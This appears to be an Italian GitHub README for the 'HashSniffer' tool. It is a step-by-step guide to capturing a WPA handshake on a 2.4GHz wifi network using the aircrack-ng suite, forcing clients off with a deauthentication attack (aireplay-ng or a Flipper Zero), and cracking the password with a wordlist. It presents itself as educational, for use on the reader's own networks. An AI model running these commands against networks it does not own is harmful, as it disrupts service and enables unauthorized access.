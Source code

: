 # Page 1

Il nostro progetto è stato quello di evidenziare le vulnerabilità di una rete wifi comune a 2.4GHz. Questo progetto nasce solo ed esclusivamente a scopo informativo e vi invitiamo a replicare il progetto con reti create da voi per verificarne le vulnerabilità.

Per seguire questa guida e semplificare i vari comandi di testing, abbiamo creato un tool da eseguire in shell linux. Nella guida troverete sia come usare il tool che i comandi da eseguire manualmente. Ricordiamo inoltre che il tool è completamente source code. Per eseguire seguire la guida è richiesto un OS Linux con [aircrack-ng](https://www.aircrack-ng.org/) installato (su Kali è preinstallato).

## $${\color{aqua}Automated \space script}$$

Iniziamo scaricando la repository in locale:

```bash
$ git clone https://github.com/callmenoway/HashSniffer.git
$ cd HashSniffer
```

Successivamente eseguiamo il tool:

```bash
$ chmod +x hashsniffer.sh
$ ./hashsniffer.sh
```

## $${\color{green}Guida \space manuale}$$

Iniziamo aprendo un terminale e seguendo i seguenti comandi:


```bash
┌(root💀kali)-[~]
│
┕$ iwconfig
```

<div align="center">

<img src="img/1.png" alt="">

</div>

Una volta eseguito il comando ci usciranno tutte le schede internet che possediamo sulla macchina. Per iniziare creiamo una scheda parallela virtuale per iniziare il listening delle reti:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airomon-ng start <SCHEDA DI RETE>
```

<div align="center">

<img src="img/2.png" alt="">

</div>

Successivamente per visualizzare tutte le reti disponibili:


```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng <SCHEDA DI RETE>mon
```

\


<div align="center">

<img src="img/4.png" alt="">

</div>

Tra i risultati dobbiamo copiare il BSSID della rete in questione ed eseguire il comando:

```bash
┌(root💀kali)-[~]
│
┕$ sudo airodump-ng -canale -w NomeFile -d BSSID <SCHEDA DI RETE>mon
```

In questo modo stiamo verificando solo la rete in questione.

## $${\color{green}Deauth \space \color{red} Attack}$$

Una volta che siamo in listening wifi possiamo procedere con il [Deauth Attack](https://en.wikipedia.org/wiki/Wi-Fi\_deauthentication\_attack) (Oggi useremo il Flipper Zero ma ci sono altre alternative come ESP32 Marauder ecc...). Iniziamo facendo una scansione delle reti, selezioniamo la rete in questione e iniziamo l'attacco.

Deauth attack con Flipper Zero:

<div align="center">

<img src="img/flipper.jpg" alt="" width="300">

</div>

Attacco deauth integrato tramite il comando:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aireplay-ng --deauth 0 -a BSSID -c STATION <SCHEDA DI RETE>mon
```

<div align="center">

<img src="img/5.png" alt="">

</div>

## $${\color{white}WPA \space \color{green}handshake \space \color{red}decrypt}$$

Una volta effettuato l'attacco sul terminale linux dovremo trovare un WPA handshake. Se non compare continuiamo l'attacco in modo che il dispositivo si ricolleghi. Una volta trovato il WPA handshake nella cartella locale troveremo dei file "NomeFile" che contengono tutte le informazioni che ci servono sulla rete. Per eseguire la decriptazione della password del wifi necessitiamo di un file che contenga molte password da provare sul file criptato. Per iniziare la decriptazione:


```bash
┌(root💀kali)-[~]
│
┕$ sudo aircrack-ng NomeFile-01.cap -w Password.txt 
```

<div align="center">

<img src="img/6.png" alt="">

</div>

Il tempo di decriptazione può variare in base alla difficoltà della password e dalla lista che viene usata.

## $${\color{orange}Tools}$$

[Flipper Zero](https://flipperzero.one/) accoppiato con [ESP32](https://en.wikipedia.org/wiki/ESP32).\
Deauther fai da te: [Marauder](https://github.com/justcallmekoko/ESP32Marauder).\
Tool usato per condividere lo schermo in rete locale [Live-ScreenShare](https://github.com/callmenoway/Live-ScreenShare)
